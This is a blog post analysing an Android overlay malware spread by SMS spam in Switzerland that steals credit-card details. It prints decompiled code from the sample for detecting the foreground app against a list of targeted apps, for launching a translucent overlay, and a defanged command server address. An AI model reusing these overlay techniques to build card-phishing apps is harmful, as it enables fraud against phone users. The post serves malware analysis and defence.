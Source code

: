 ```yaml
---
layout: post
title: Android overlay malware analysis
category: android-overlay-malware
author: Sergio
description: Analysis of overlay technique used by malware delivered via SMS spam campaign in Switzerland
image: instagram_overlay.gif
tags: [malware-analysis, reverse-engineering, android,overlay]
disqus: y
---
```


<a href="/images/blog/instagram_overlay.gif" target="blank" style="float: right; z-index:999;">
	<img src="/images/blog/instagram_overlay.gif" style="border: 0px;" width="230" />
</a>

After reading the announcement from [GovCERT](https://www.govcert.admin.ch) about a new SMS spam campaign in Switzerland delivering a credit-card stealing Android malware, we wanted to take a look at the code behind it.

We found some great analysis by [FireEye](https://www.fireeye.com/blog/threat-research/2016/06/latest-android-overlay-malware-spreading-in-europe.html) and [Angel Alonso-Parrizas](http://blog.angelalonso.es/2016/07/cyber-campaign-in-switerzland-using.html) on the inner-working of this malware. But since we are interested in [overlay attacks](http://www.modzero.ch/modlog/archives/2015/04/01/android_apps_in_sheeps_clothing/index.html), we analyzed only this aspect. After getting a sample (*MD5 c121a1ae8a4ee564fd6bd079ad5d3373*) we tried to infect an Android emulator running version 4.4.2. In the animation on the right-hand side you see the overlay getting popped on top of Instagram application.
<br/><br/>
For the static analysis we used both [cfr](http://www.benf.org/other/cfr/) and [jd-gui](jd.benow.ca) decompilers. As well described by Alonso, the main payload of the malware is loaded deferred after the malware is launched. We extracted the main payload (actually a dex-file in the application folder) from one of our infected (rooted) device and started decompiling it. Every malware using overlay attacks basically does the following two steps:

- Monitor the foreground process continuously
- Inject an overlay view when a particular condition is met
	- Using `WindowManager.addView()`
	- By starting its own activity

If you want to dig deeper on some overlay code, we developed a [simple malware](https://github.com/geeksonsecurity/android-overlay-malware-example) to demonstrate how this works.
<br/><br/>
This malware, as suspected, contains a background service which basically checks continuously the foreground process.

```java
@Override
public void run() {
		String string2 = dkukcwkg.this.getTop();
		int n = 0;
		int n2 = 0;
		do {
				if (n2 >= Constants.PACKAGES.length) {
						n2 = n;
						break;
				}
				if (string2.contains(Constants.PACKAGES[n2])) {
						n2 = 1;
						break;
				}
				++n2;
		} while (true);
		if (n2 != 0) {
				// Show the overlay activity
				if (settings.getBoolean("CARD_SENT", false)) return;
				Intent intent = new Intent((Context)dkukcwkg.this, dpathlt.class);
				intent.putExtra("package", string2);
				intent.addFlags(268435456); // FLAG_CANCEL_CURRENT
				dkukcwkg.this.startActivity(intent);
		}
}
```

The foreground process is checked against a predefined list of package names (of common apps), in our sample the list was `"com.whatsapp", "com.android.vending", "com.facebook.orca", "com.facebook.katana", "com.tencent.mm", "com.google.android.youtube", "com.ubercab", "com.viber.voip", "com.eboks.activities", "com.skype.raider", "com.snapchat.android", "com.instagram.android", "com.twitter.android"`.

Starting with version 5.1.1, retrieving the foreground process on Android [seems almost impossible](http://stackoverflow.com/questions/30619349/android-5-1-1-and-above-getrunningappprocesses-returns-my-application-packag). So we were curious about if they to actually use some fancy foreground detection stuff.

If we look at the `getTop()` method we see following:

```java
private String getTop() {
		String string2 = Build.VERSION.SDK_INT > 20 ? this.getActivePackageL() : this.getActivePackagePreL();
		if (string2 != null) {
				return string2;
		}
		return "";
}
```

On pre-Lollipop version they use `ActivityManager.RunningTaskInfo`:

```java
private String getActivePackagePreL() {
        List list = this.am.getRunningTasks(1);
        if (!list.isEmpty()) {
            return ((ActivityManager.RunningTaskInfo)list.get((int)0)).topActivity.getPackageName();
        }
        return "";
    }
```

On post-Lollipop version they use `ActivityManager.getRunningAppProcesses()` and check against the importance level of the process (looking for [IMPORTANCE_FOREGROUND](https://developer.android.com/reference/android/app/ActivityManager.RunningAppProcessInfo.html#IMPORTANCE_FOREGROUND)), since starting on Lollipop this is not enough anymore, they also check an hidden field called `processState` searching for a specific value (2). This technique is very well explained on [this StackOverflow thread](http://stackoverflow.com/a/28277427).

```java
private String getActivePackageL()
 {
	 Object localObject3 = null;
	 Object localObject1 = null;
	 try
	 {
		 localObject2 = ActivityManager.RunningAppProcessInfo.class.getDeclaredField("processState");
		 localObject1 = localObject2;
	 }
	 catch (Exception localException1)
	 {
		 Object localObject2;
		 Iterator localIterator;
		 ActivityManager.RunningAppProcessInfo localRunningAppProcessInfo;
		 for (;;) {}
	 }
	 localIterator = ((ActivityManager)this.context.getSystemService("activity")).getRunningAppProcesses().iterator();
	 if (!localIterator.hasNext()) {}
	 for (localObject1 = localObject3;; localObject1 = localRunningAppProcessInfo)
	 {
		 if (localObject1 != null) {
			 break label119;
		 }
		 return "";
		 localRunningAppProcessInfo = (ActivityManager.RunningAppProcessInfo)localIterator.next();
		 // Check if importance level is IMPORTANCE_FOREGROUND and reasonCode equals 0
		 if ((localRunningAppProcessInfo.importance != 100) || (localRunningAppProcessInfo.importanceReasonCode != 0)) {
			 break;
		 }
		 localObject2 = null;
		 try
		 {
			 // Get processState field via reflection
			 int i = ((Field)localObject1).getInt(localRunningAppProcessInfo);
			 localObject2 = Integer.valueOf(i);
		 }
		 catch (Exception localException2)
		 {
			 for (;;) {}
		 }
		 // If processState isn't PROCESS_STATE_TOP (value 2) break
		 if ((localObject2 == null) || (((Integer)localObject2).intValue() != 2)) {
			 break;
		 }
	 }
	 label119:
	 return localObject1.pkgList[0];
 }
```

So no big surprise there, the malware uses well known ways to get the foreground process **which aren't working on Android >= 5.1 anymore**.

Now, if the current foreground process match one item on the target list, the overlay Activity is started. This Activity is made transparent using Android styling as following:

```xml
<style name="LightDialogTheme" parent="@android:style/Theme.Holo.Light.NoActionBar">
		<item name="android:windowBackground">@drawable/dialog_full_holo_light</item>
		<item name="android:windowFrame">@null</item>
		<item name="android:windowIsFloating">true</item>
		<item name="android:windowIsTranslucent">true</item>
		<item name="android:windowContentOverlay">@null</item>
		<item name="android:windowAnimationStyle">@style/DialogAnimation</item>
		<item name="android:backgroundDimEnabled">true</item>
		<item name="android:windowSoftInputMode">adjustResize|stateUnchanged</item>
</style>
```

What's also interesting is that the APK contains language resources for many different languages like German, Greek, Spanish, French, Italian, Japanese and Chinese (Simplified, Traditional, Hong-Kong). Furthermore the credit-card number is validated, so that before actually submitting something to the server they are sure that the number given pass the [Luhn Algorithm](https://en.wikipedia.org/wiki/Luhn_algorithm). Unfortunately by the time we were analyzing the malware, its C&C Server (*hXXp://85.93.5.146/*) was already down.
<br/><br/>
We also tried our [Overlay Protector](https://geeksonsecurity.github.io/overlay-protector-website/) against it and the overlay got detected by our app. Be aware that the app in the beta channel is an old version which can only detect overlays injected via `WindowManager.addView`.
<br/><br/>
<iframe width="420" height="515" src="https://www.youtube.com/embed/GyMR9QF691s" style="display:block;margin: 0 auto;" frameborder="0" allowfullscreen></iframe>
